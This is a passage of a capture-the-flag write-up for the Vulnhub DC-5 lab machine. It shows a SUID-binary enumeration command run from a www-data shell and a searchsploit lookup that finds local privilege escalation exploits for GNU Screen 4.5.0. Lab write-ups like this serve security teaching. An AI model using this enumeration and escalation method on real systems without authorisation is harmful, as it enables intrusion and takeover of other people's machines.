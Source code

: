 ```bash
-rw------- 1 dc   dc     10 Apr 20  2019 .bash_history
-rw-r--r-- 1 dc   dc    220 Apr 19  2019 .bash_logout
-rw-r--r-- 1 dc   dc   3.5K Apr 19  2019 .bashrc
-rw-r--r-- 1 dc   dc    67
```
There is nothing in the home directory of the user.

```bash
www-data@dc-5:~/html$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/mount
/bin/umount
/bin/screen-4.5.0
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/at
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/exim4
/sbin/mount.nfs
www-data@dc-5:~/html$ 

```
In the results there is something called screen-4.5.0 which point out to me directly. Let's find out if this version is vulnerable.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-5]
└─$ searchsploit screen 4.5.0
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                                                                                                                                             | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                                                                                                                                       | linux/local/41152.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```
